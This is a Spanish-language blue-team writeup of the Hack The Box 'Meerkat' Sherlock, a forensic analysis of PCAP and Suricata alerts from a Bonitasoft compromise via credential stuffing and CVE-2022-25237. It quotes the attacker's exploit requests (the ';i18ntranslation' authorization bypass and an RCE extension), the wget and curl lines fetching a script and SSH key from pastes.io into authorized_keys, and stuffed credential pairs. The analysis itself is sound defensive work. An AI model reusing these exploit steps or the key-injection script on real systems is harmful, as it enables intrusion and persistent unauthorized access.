


# Meerkat — HTB Blue Team Writeup

<!-- Archivo: HTB-20260330-meerkat.md -->
<!--
  POLÍTICA DE DIVULGACIÓN HTB
  Este writeup se publica dado que el reto está marcado como RETIRED en HTB.
  No se incluyen flags en texto plano.
-->

---

## Metadata

| Campo | Valor |
|---|---|
| **Plataforma** | Hack The Box |
| **Tipo** | Sherlock |
| **Nombre del reto** | Meerkat |
| **Dificultad** | Easy |
| **Categoría HTB** | SOC |
| **Puntos** | — |
| **Fecha de resolución** | 2026-03-30 |
| **Estado del reto** | Retired |
| **Tiempo de resolución** | ~3 horas |

### Herramientas utilizadas

`Wireshark` · `tshark` · `jq` · `PowerShell` · `Wayback Machine`

### MITRE ATT&CK

| ID | Técnica | Táctica |
|---|---|---|
| T1190 | Exploit Public-Facing Application | Initial Access |
| T1078 | Valid Accounts | Defense Evasion / Credential Access |
| T1059.004 | Command and Scripting Interpreter: Unix Shell | Execution |
| T1098.004 | Account Manipulation: SSH Authorized Keys | Persistence |

---

## Resumen Ejecutivo

Forela, una startup en crecimiento, operaba una instancia de **Bonitasoft BPM** expuesta públicamente en `forela.co.uk:8080`. El servidor fue comprometido el 19 de enero de 2023 mediante una cadena de ataque en dos fases: primero, un ataque de **credential stuffing** con 56 combinaciones de credenciales corporativas reales que resultó en el acceso exitoso a la cuenta `seb.broom@forela.co.uk`; y segundo, la explotación de **CVE-2022-25237** (Authorization Bypass + RCE) que permitió la ejecución de comandos arbitrarios como `root`. El análisis forense de los artefactos `meerkat.pcap` y `meerkat-alerts.json` reveló tres sesiones de ataque independientes, comandos de reconocimiento post-explotación (`whoami`, `cat /etc/passwd`) y el establecimiento de **persistencia via SSH** mediante la inyección de una clave pública en `/home/ubuntu/.ssh/authorized_keys`. El compromiso es total y confirmado.

---

## 1. Descripción del Escenario

> *"As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised."*

El escenario plantea una empresa con baja madurez en seguridad que sospecha haber sido comprometida a través de su plataforma de gestión empresarial. Se pide analizar artefactos de red y logs de IDS para confirmar o descartar el compromiso.

### Artefactos proporcionados

| Archivo | Tipo | Descripción |
|---|---|---|
| `meerkat.pcap` | PCAP (pcap-ng v1.0) | Captura de tráfico de red del servidor afectado |
| `meerkat-alerts.json` | Log JSON (ASCII) | Alertas IDS exportadas desde Suricata |

---

## 2. Reconocimiento de Artefactos

### Información inicial

```powershell
$ file .\meerkat.pcap
.\meerkat.pcap: pcap-ng capture file - version 1.0

$ file .\meerkat-alerts.json
.\meerkat-alerts.json: ASCII text, with very long lines
```

Inspección del JSON de alertas para determinar estructura, volumen y contexto:

```powershell
# Estructura de una alerta
jq '.[0]' meerkat-alerts.json
# → event_type: "alert", src_ip: "89.248.165.187", dest_ip: "172.31.6.44"
#   alert.signature: "ET CINS Active Threat Intelligence Poor Reputation IP group 82"
#   alert.category: "Misc Attack"

# Signatures únicas detectadas
jq '[.[].alert.signature] | unique' meerkat-alerts.json
```

**Signatures relevantes identificadas (extracto):**

```
"ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"
"ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)"
"ET EXPLOIT Bonitasoft Successful Default User Login Attempt (Possible Staging for CVE-2022-25237)"
"ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)"
"ET ATTACK_RESPONSE Possible /etc/passwd via HTTP (linux style)"
"ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
"ET INFO User-Agent (python-requests) Inbound to Webserver"
"ET SCAN Suspicious inbound to mySQL port 3306"
"ET SCAN Potential VNC Scan 5900-5920"
"GPL WEB_SERVER DELETE attempt"
```

**IPs involucradas:**

```
# Víctima (servidor Forela):
172.31.6.44

# Atacantes / IPs externas con reputación negativa:
156.146.62.213  → atacante principal
138.199.59.221  → segundo actor
89.248.165.x    → IPs de reputación negativa (CINS/Dshield)
(+ múltiples IPs en listas negras de Dshield, CINS, 3CORESec)
```

### Hipótesis inicial

Las alertas apuntan a un ataque dirigido contra una instancia de **Bonitasoft BPM** expuesta públicamente. Se observa una secuencia clara de reconocimiento, autenticación con credenciales conocidas y explotación de CVE-2022-25237 (Authorization Bypass + RCE). Las IPs externas tienen confirmación negativa en múltiples threat feeds (CINS, Dshield, 3CORESec). Alta probabilidad de compromiso activo con ejecución remota de código.

---

## 3. Proceso de Investigación

### 3.1 Análisis de alertas IDS (meerkat-alerts.json)

**Objetivo:** Identificar la secuencia cronológica de eventos, actores involucrados y naturaleza del ataque a partir de las alertas generadas por Suricata.

```powershell
# Todas las alertas ordenadas por tiempo
jq '[.[] | select(.alert.signature != null) | 
    {ts, src_ip, sig: .alert.signature}] | sort_by(.ts)' meerkat-alerts.json

# Solo alertas relacionadas con Bonitasoft
jq '[.[] | select(.alert.signature != null) | 
    select(.alert.signature | contains("Bonitasoft"))] | 
    sort_by(.ts) | .[] | {ts, src_ip, sig: .alert.signature}' meerkat-alerts.json

# Total de alertas Bonitasoft
jq '[.[] | select(.alert.signature != null) | 
    select(.alert.signature | contains("Bonitasoft"))] | length' meerkat-alerts.json
# → 79
```

**Análisis:**

La secuencia temporal revela dos actores externos operando de forma independiente contra el mismo objetivo (`172.31.6.44`):

**`156.146.62.213`** inicia actividad a las `15:30 UTC` con un port scan sistemático (MySQL 3306, PostgreSQL 5432, Oracle 1521, MSSQL 1433, VNC 5800-5920), seguido inmediatamente de un bruteforce automatizado contra el endpoint `/bonita/loginservice` usando `python-requests/2.28.1`. El patrón de intentos muestra intervalos regulares de ~6-7 segundos, consistente con un script automatizado. A las `15:35:04 UTC` se registra el primer login exitoso y las alertas de CVE-2022-25237 se disparan de inmediato.

**`138.199.59.221`** aparece a las `15:38:38 UTC` sin fase de reconocimiento previa, autenticándose directamente con credenciales ya comprometidas y ejecutando el exploit de forma inmediata — evidenciando coordinación o reutilización de credenciales entre actores.

---

### 3.2 Análisis de tráfico de red (meerkat.pcap)

**Objetivo:** Reconstruir la cadena de explotación HTTP, confirmar el RCE y documentar las acciones post-explotación de cada sesión.

**Filtro aplicado en Wireshark:** `ip.addr == 156.146.62.213 && http`

#### Sesión 1 — Atacante 1 (156.146.62.213) · 15:35:04 UTC

**Cadena de explotación CVE-2022-25237:**

*Wireshark frames 2918-2935 con la secuencia POST/GET/DELETE*



```
Frame 2918 → POST /bonita/API/pageUpload;i18ntranslation?action=add
             filename="rce_api_extension.zip" (14,966 bytes, multipart/form-data)
             HTTP 200 ✓

Frame 2925 → POST /bonita/API/portal/page/;i18ntranslation
             {"contentName":"rce_api_extension.zip","pageZip":"tmp_148...zip"}
             HTTP 200 → id: "130" registrado ✓

Frame 2931 → GET /bonita/API/extension/rce?p=0&c=1&cmd=whoami
             HTTP 200 → {"cmd":"whoami","out":"root\n"} ✓

Frame 2934 → DELETE /bonita/API/portal/page/130;i18ntranslation
             HTTP 200 → extensión eliminada ✓
```

El sufijo `;i18ntranslation` en las URIs constituye el mecanismo de **authorization bypass** de CVE-2022-25237: engaña al filtro de autenticación de Bonitasoft, permitiendo acceder a endpoints protegidos con una sesión de usuario estándar.

**Resultado crítico:** El proceso Bonitasoft corre como **`root`**, otorgando al atacante control total del sistema operativo subyacente.

```json
{"p":"0","c":"1","cmd":"whoami","out":"root\n","currentDate":"2023-01-19"}
```

La cookie de sesión utilizada fue `JSESSIONID=ECD4DBCB8973A78BFB74972678B3123B` con token `X-Bonita-API-Token=63c9d60d-2876-4cd0-a445-e2509707959b`.

---

#### Sesión 2 — Atacante 2 (138.199.59.221) · 15:38:38 UTC

**Follow HTTP Stream — secuencia completa:**

*Follow HTTP Stream con login exitoso de seb.broom y exploit subsiguiente*



```
POST /bonita/loginservice
username=install&password=install → HTTP 401

POST /bonita/loginservice
username=seb.broom%40forela.co.uk&password=g0vernm3nt → HTTP 204 ✓
Set-Cookie: JSESSIONID=0AD5E14F8D1AE496444835639D0E60A9
Set-Cookie: X-Bonita-API-Token=8b71f28f-31aa-47cb-92b6-50521cd5bf92

POST /bonita/API/pageUpload;i18ntranslation?action=add
→ rce_api_extension.zip subido → HTTP 200

POST /bonita/API/portal/page/;i18ntranslation
→ id: "131" registrado → HTTP 200

GET /bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd
→ HTTP 200 → contenido completo de /etc/passwd

DELETE /bonita/API/portal/page/131;i18ntranslation → HTTP 200
```

**Hallazgo clave:** Este actor no usó credenciales por defecto sino las de un empleado real de Forela obtenidas vía credential stuffing: `seb.broom@forela.co.uk:g0vernm3nt`. El HTTP 204 confirma autenticación exitosa.

La respuesta a `cat /etc/passwd` confirmó que el servidor es una instancia **Ubuntu en AWS EC2** con dos cuentas con shell interactiva: `root` (uid 0) y `ubuntu` (uid 1000). Presencia de `ec2-instance-connect`, `lxd` y `landscape` confirma el entorno cloud.

---

#### Sesión 3 — Persistencia · 15:38:52 UTC

Una tercera sesión independiente (`JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3`) ejecutó el exploit nuevamente (extensión `page/132`) con un objetivo diferente: establecer persistencia.

*GET request al endpoint /extension/rce con cmd=wget*


```http
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8

HTTP 200 →
{
  "cmd": "wget https://pastes.io/raw/bx5gcr0et8",
  "out": "...bx5gcr0et8 saved [113/113]...",
  "currentDate": "2023-01-19"
}

DELETE /bonita/API/portal/page/132;i18ntranslation → HTTP 200
```

El contenido de `bx5gcr0et8` fue recuperado via **Wayback Machine** (primer snapshot: 2023-03-23):

```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

El script descarga la clave pública `hffgra4unv` desde `pastes.io` y la inyecta en el archivo `authorized_keys` del usuario `ubuntu`, habilitando acceso SSH permanente al sistema con clave del atacante. El servicio SSH se reinicia para aplicar el cambio de forma inmediata.

---

### 3.3 Análisis de Credential Stuffing

**Objetivo:** Cuantificar y caracterizar el ataque de credential stuffing identificado en el PCAP.

```powershell
# Extraer todos los intentos únicos de login
tshark -r meerkat.pcap `
  -Y 'http.request.method == "POST" && http.request.uri contains "loginservice"' `
  -T fields -e http.file_data 2>$null `
  | Where-Object { $_ -ne "" } `
  | Sort-Object -Unique
# → 57 líneas únicas en hex
```
*Output de tshark mostrando las líneas hex de los intentos — extracto de las primeras 10*


La decodificación de los 57 valores únicos revela:

- **1 entrada** corresponde a `username=install&password=install` — credencial por defecto de Bonitasoft, usada como "reset" de sesión entre cada intento real. No forma parte del dataset de credential stuffing.
- **56 entradas** corresponden a pares `usuario@forela.co.uk:contraseña` únicos — todos con el dominio corporativo real de Forela, con contraseñas específicas (no genéricas), evidenciando una lista proveniente de un **breach externo previo**.

**Muestra de credenciales probadas (extracto decodificado):**

```
Cariotta.Whife@forela.co.uk       : x3hoU0
Teresita.Benford@forela.co.uk     : uvYjtQzX
Adora.Mersh@forela.co.uk          : 85Hh8JZkJR6
Aldrea.Shervil@forela.co.uk       : 7YoFhtUq
seb.broom@forela.co.uk            : g0vernm3nt  ← EXITOSO (HTTP 204)
[... 51 combinaciones adicionales ...]
```

Solo la combinación `seb.broom@forela.co.uk:g0vernm3nt` resultó en autenticación exitosa (HTTP 204). Todos los demás 55 intentos devolvieron HTTP 401.

---

## 4. Respuesta a las Tasks del Reto

### Task 1: We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

**Proceso:** Las alertas IDS incluyen signatures específicas de `Bonitasoft`, y el tráfico HTTP en el PCAP confirma requests a `/bonita/API/` y `/bonita/loginservice` en `forela.co.uk:8080`.

**Respuesta:** `Bonitasoft`

---

### Task 2: We believe the attacker may have used a subset of the brute forcing attack category — what is the name of the attack carried out?

**Proceso:** El análisis del PCAP muestra intentos automatizados de login con credenciales específicas de empleados reales de Forela (`@forela.co.uk`), no contraseñas genéricas. Esto descarta un bruteforce clásico y confirma el uso de una lista comprometida probada contra el servicio — definición exacta de credential stuffing.

**Respuesta:** `Credential Stuffing`

---

### Task 3: Does the vulnerability exploited have a CVE assigned — and if so, which one?

**Proceso:** Las alertas Suricata incluyen la signature `ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)`, confirmada con el tráfico HTTP que muestra el patrón de bypass y upload de extensión maliciosa.

**Respuesta:** `CVE-2022-25237`

---

### Task 4: Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

**Proceso:** En todos los requests de explotación se observa el sufijo `;i18ntranslation` en las URIs:
- `POST /bonita/API/pageUpload;i18ntranslation?action=add`
- `POST /bonita/API/portal/page/;i18ntranslation`
- `DELETE /bonita/API/portal/page/130;i18ntranslation`

```
Frame 2918: POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1
```

**Respuesta:** `i18ntranslation`

---

### Task 5: How many combinations of usernames and passwords were used in the credential stuffing attack?

**Proceso:** Extracción de los payloads únicos de todos los POST a `/bonita/loginservice` via tshark (57 entradas únicas), menos 1 correspondiente a `install:install` que es la credencial por defecto intercalada como reset de sesión.

```
57 entradas únicas − 1 (install:install) = 56 combinaciones de credential stuffing
```

**Respuesta:** `56`

---

### Task 6: Which username and password combination was successful?

**Proceso:** El follow HTTP stream de la sesión del Atacante 2 muestra la secuencia de autenticación. Tras el rechazo de `install:install` (HTTP 401), el intento con `seb.broom@forela.co.uk:g0vernm3nt` devuelve HTTP 204 y establece las cookies de sesión usadas en todo el exploit subsiguiente.

```http
POST /bonita/loginservice
username=seb.broom%40forela.co.uk&password=g0vernm3nt&_l=en
HTTP/1.1 204
Set-Cookie: JSESSIONID=0AD5E14F8D1AE496444835639D0E60A9
```

**Respuesta:** `seb.broom@forela.co.uk:g0vernm3nt`

---

### Task 7: If any, which text sharing site did the attacker utilise?

**Proceso:** El comando RCE de la Sesión 3 ejecuta `wget https://pastes.io/raw/bx5gcr0et8`, descargando un script de bash desde el sitio de paste sharing `pastes.io`. La URL del segundo recurso (`hffgra4unv`) también usa el mismo dominio.

**Respuesta:** `pastes.io`

---

### Task 8: Please provide the filename of the public key used by the attacker to gain persistence on our host.

**Proceso:** El script descargado desde `bx5gcr0et8` (recuperado via Wayback Machine, snapshot 2023-03-23) contiene:

```bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
```

El filename que identifica la clave pública en `pastes.io` es `hffgra4unv`.

**Respuesta:** `hffgra4unv`

---

### Task 9: Can you confirm the file modified by the attacker to gain persistence?

**Proceso:** El script de persistencia usa redirección append (`>>`) para escribir en el archivo de claves autorizadas SSH del usuario `ubuntu`.

**Respuesta:** `/home/ubuntu/.ssh/authorized_keys`

---

### Task 10: Can you confirm the MITRE technique ID of this type of persistence mechanism?

**Proceso:** La técnica de inyectar claves públicas en `authorized_keys` para obtener acceso SSH persistente está catalogada en MITRE ATT&CK bajo Account Manipulation, subtécnica SSH Authorized Keys.

**Respuesta:** `T1098.004`

---

## 5. Línea de Tiempo del Ataque

| Timestamp (UTC) | Evento | Fuente |
|---|---|---|
| 2023-01-19 15:29:37 | Primeros hits de IPs con reputación negativa (Dshield/CINS) contra el servidor | meerkat-alerts.json |
| 2023-01-19 15:30:13 | Port scan sistemático desde `156.146.62.213` — MySQL, PostgreSQL, Oracle, MSSQL, VNC | meerkat-alerts.json |
| 2023-01-19 15:31:31 | Inicio de credential stuffing automatizado (python-requests/2.28.1) contra `/bonita/loginservice` | meerkat-alerts.json / meerkat.pcap |
| 2023-01-19 15:35:04 | **Login exitoso** (Sesión 1) — credenciales por defecto de Bonitasoft | meerkat.pcap |
| 2023-01-19 15:35:04 | **RCE #1** — Upload de `rce_api_extension.zip` (page/130), ejecución de `whoami` → `root` | meerkat.pcap frames 2918-2935 |
| 2023-01-19 15:35:05 | Limpieza — DELETE page/130 | meerkat.pcap frame 2934 |
| 2023-01-19 15:38:38 | **Login exitoso** (Sesión 2) — `seb.broom@forela.co.uk:g0vernm3nt` (HTTP 204) | meerkat.pcap |
| 2023-01-19 15:38:38 | **RCE #2** — Upload de `rce_api_extension.zip` (page/131), ejecución de `cat /etc/passwd` | meerkat.pcap |
| 2023-01-19 15:38:39 | Reconocimiento de SO — Ubuntu EC2, usuarios `root` y `ubuntu` identificados | meerkat.pcap |
| 2023-01-19 15:38:39 | Limpieza — DELETE page/131 | meerkat.pcap |
| 2023-01-19 15:38:52 | **RCE #3 + Persistencia** — Upload (page/132), `wget https://pastes.io/raw/bx5gcr0et8` | meerkat.pcap |
| 2023-01-19 15:38:53 | Script de persistencia descargado — inyección de clave pública en `authorized_keys`, restart SSH | meerkat.pcap / Wayback Machine |
| 2023-01-19 15:38:53 | Limpieza — DELETE page/132 | meerkat.pcap |

---

## 6. Indicadores de Compromiso (IOCs)

| Tipo | Valor | Contexto |
|---|---|---|
| IP | `156.146.62.213` | Atacante 1 — port scan, credential stuffing, RCE #1 |
| IP | `138.199.59.221` | Atacante 2 — credential stuffing exitoso, RCE #2 |
| IP | `66.29.132.145` | IP de pastes.io — servidor desde donde se descargó el payload |
| Credential | `seb.broom@forela.co.uk:g0vernm3nt` | Cuenta corporativa comprometida vía credential stuffing |
| Session | `JSESSIONID=ECD4DBCB8973A78BFB74972678B3123B` | Sesión comprometida — Atacante 1 |
| Token | `X-Bonita-API-Token=63c9d60d-2876-4cd0-a445-e2509707959b` | API token — Atacante 1 |
| Session | `JSESSIONID=0AD5E14F8D1AE496444835639D0E60A9` | Sesión comprometida — Atacante 2 (seb.broom) |
| Token | `X-Bonita-API-Token=8b71f28f-31aa-47cb-92b6-50521cd5bf92` | API token — Atacante 2 |
| Session | `JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3` | Sesión — Sesión 3 (persistencia) |
| File | `rce_api_extension.zip` | Payload malicioso — extensión RCE para Bonitasoft |
| URL | `http://forela.co.uk:8080/bonita/API/extension/rce` | Endpoint webshell post-explotación |
| URL | `https://pastes.io/raw/bx5gcr0et8` | Script de bash para establecer persistencia |
| URL | `https://pastes.io/raw/hffgra4unv` | Clave pública SSH del atacante |
| File | `/home/ubuntu/.ssh/authorized_keys` | Archivo modificado para persistencia SSH |

---

## 7. Habilidades Demostradas

- **Análisis de alertas IDS (Suricata/JSON):** Procesamiento y correlación de alertas exportadas en formato JSON usando `jq` para identificar secuencias de ataque, actores involucrados y TTPs.
- **Análisis de PCAP (Wireshark/tshark):** Reconstrucción de cadenas de explotación HTTP a nivel de frame, uso de filtros de display, follow HTTP stream y extracción de payloads de credenciales.
- **Análisis de vulnerabilidades web:** Identificación y documentación del mecanismo de CVE-2022-25237 (authorization bypass via sufijo en URI + upload de extensión maliciosa en Bonitasoft).
- **Threat Intelligence aplicada:** Correlación de IPs atacantes con feeds de reputación (CINS, Dshield, 3CORESec) e investigación de artefactos externos usando Wayback Machine para recuperar contenido de URLs maliciosas.
- **Reconocimiento de TTPs (MITRE ATT&CK):** Mapeo correcto de técnicas observadas (T1190, T1078, T1059.004, T1098.004) a partir de evidencia forense.
- **Análisis de credential stuffing:** Decodificación de payloads HTTP en hex, deduplicación y conteo de combinaciones únicas de credenciales para cuantificar el alcance del ataque.

---

## 8. Hallazgos Clave

1. **RCE como root:** Bonitasoft corría con privilegios de `root`, convirtiendo el RCE en compromiso total del sistema operativo. Cualquier comando ejecutado por el atacante tuvo acceso irrestricto al sistema.

2. **Credenciales corporativas reales comprometidas:** El atacante poseía una lista de 56 pares `usuario@forela.co.uk:contraseña` con contraseñas específicas — no genéricas — para empleados reales de Forela. Esto indica un breach previo o fuga de datos de la organización, independiente del incidente de Bonitasoft.

3. **Persistencia vía SSH con clave pública:** El atacante estableció acceso persistente al sistema inyectando su clave pública en `/home/ubuntu/.ssh/authorized_keys`. Este acceso sobrevive a cualquier parche de Bonitasoft y requiere respuesta de incidente en el sistema operativo.

4. **Limpieza sistemática de evidencia:** Las tres sesiones de ataque eliminaron la extensión maliciosa (`DELETE page/130`, `131`, `132`) inmediatamente después de usarla, evidenciando conocimiento operacional del entorno y evasión deliberada de detección.

5. **Múltiples actores o herramienta compartida:** Se identificaron tres sesiones con cookies y tokens independientes, operando de forma coordinada en un margen de ~3 minutos. Esto sugiere un framework de ataque compartido o un solo actor operando con múltiples herramientas.

---

## 9. Lecciones Aprendidas

### Lo que funcionó
- Empezar por el JSON de alertas antes del PCAP permitió construir una hipótesis sólida que guió todo el análisis posterior.
- El follow HTTP stream de Wireshark fue clave para correlacionar sesiones — los JSESSIONID permitieron vincular login exitoso con el RCE subsiguiente.
- Wayback Machine como recurso de TI para recuperar contenido de URLs maliciosas que ya no están activas.

### Gaps identificados
- Bonitasoft no debería correr como `root` — el principio de mínimo privilegio es crítico.
- No existía monitoreo de modificaciones a `authorized_keys` ni alertas sobre reinicios de servicios SSH.
- La ausencia de controles sobre credenciales por defecto (`install:install`) facilitó el acceso inicial del Atacante 1.

### Para investigar después
- ¿Qué comandos ejecutó exactamente la Sesión 3 además del `wget`? ¿Hubo más actividad post-persistencia?
- Origen del breach que proporcionó las 56 credenciales de empleados de Forela.
- Verificar si `156.146.62.213` y `138.199.59.221` están asociados a algún threat actor conocido.

---

## Referencias

- [HTB — Meerkat Sherlock](https://app.hackthebox.com/sherlocks/Meerkat)
- [MITRE ATT&CK — T1190: Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK — T1098.004: SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004/)
- [NVD — CVE-2022-25237](https://nvd.nist.gov/vuln/detail/CVE-2022-25237)
- [Bonitasoft Security Advisory — CVE-2022-25237](https://www.bonitasoft.com/security-advisories)
- [Emerging Threats — Suricata Rules](https://rules.emergingthreats.net/)
- [Wayback Machine — pastes.io snapshot](https://web.archive.org/web/20230323143358/https://pastes.io/raw/bx5gcr0et8)